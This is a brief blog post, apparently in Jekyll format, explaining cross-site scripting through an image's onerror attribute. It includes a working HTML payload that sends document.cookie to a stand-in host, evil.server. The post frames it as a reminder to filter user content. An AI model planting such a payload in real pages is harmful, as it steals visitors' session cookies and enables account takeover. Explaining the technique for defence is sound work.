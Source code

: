 ```yaml
---
layout: post
title: XSS with Img OnError attribute
tags:
- javascript
- PHP
- security
---
```

So much of my time is spent worrying over the src or href tags on images and links - that I sometimes forget about the other attributes.

Imagine being able to make an image which has no black-flagged content in the src but yet can still make a remote request, logging the user's cookie information?  Thats right - this can be done - using the 'onerror' attribute of an image.

What you need to do is to create an image link that is obviously broken or empty.  Then, javascript handles such events by throwing an error for that element.  Add an item to the onerror attribute to request a remote URL as your images src - which you add on document.cookie.  The remote script logs all requests, and then displays an image.

Check out the code below:

Source page without proper filtering:

```html
<html>
    <body>
        <h1>test</h1>
        <h2>asdf</h2>
        <img onerror="this.src='http://evil.server/exploit.php?'+document.cookie" src=""></img>
    </body>
</html>
```

Then, on evil.server, place your image.  Finally, top it off with the following code in exploit.php

Easy as that.  Just another reminder to properly filter your use submitted content.
